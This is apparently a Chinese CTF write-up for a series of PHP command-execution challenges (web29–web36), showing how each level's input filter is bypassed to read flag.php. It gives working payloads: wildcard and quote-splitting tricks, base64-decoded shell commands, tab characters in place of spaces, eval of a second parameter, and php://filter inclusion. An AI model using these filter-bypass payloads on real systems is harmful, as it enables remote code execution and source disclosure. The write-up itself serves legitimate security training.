### web29

开启容器，题目提示

```
命令执行，需要严格的过滤
```

应该是绕过过滤


可以正常命令执行，绕过`preg_match("/flag/i", $c)`过滤即可



`/?c=system("ls");`


找到敏感文件

`flag`被过滤

尝试过滤

```php
// 通配符
1. ?c=system('cat fla*');
2. ?c=system('cat fla?.php');

3. ?c=system('cat fla$2g.php');
4. ?c=system('cat fla\g.php');
5. ?c=echo `n1 fla''g.php`;

// 成功
5. ?c=echo `n1 fla''g.php`; //官方wp
6. `echo 'dGFjIGZsYWcucGhw'|base64 -d` // base64 tac flag.php的base64
```

`system(" `\`echo 'dGFjIGZsYWcucGhw'|base64 -d\` ")`


### web30

开启容器，题目提示：

```
命令执行，需要严格的过滤
```



这次`system`也用不了, 可以代替的命令执行的函数

```php
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
echo ``

```

base64 加密无法成功

```php
?c=echo `n1 fla''g.ph''p`; //官方wp
?c=passthru('cat fla\g.p\hp');
```

之后查看源码即可


### web31

开启容器，题目提示

```
命令执行，需要严格的过滤
```

这次禁用的更多，空格、点、单引号等


```php
?c=echo%09`nl%09fla*`;
```



还有官方 wp
`/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));`


同时可以直接用新变量
`/?c=eval($_GET[1]);&1=system('tac flag.php');`



### web32

开启容器，题目提示

```
命令执行，需要严格的过滤
```

echo 也被绕过，分号也被禁用


可以用伪协议读取文件

```php
?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
```



得到 base64 编码后 flag



### web33

开启容器，题目提示

```
命令执行，需要严格的过滤
```


有更多控制条件
但是还是可以用伪协议读取

```php
?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
```





### web34

开启容器，题目提示

```
命令执行，需要严格的过滤
```

与上题一样的 payload

```php
?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
```

### web35

开启容器，题目提示

```
命令执行，需要严格的过滤
```

增加过滤条件，但是还是可以伪协议


### web36

开启容器，题目提示

```
命令执行，需要严格的过滤
```

加了对`/`和`数字0-9`的过滤，还是伪协议即可



```php
?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```
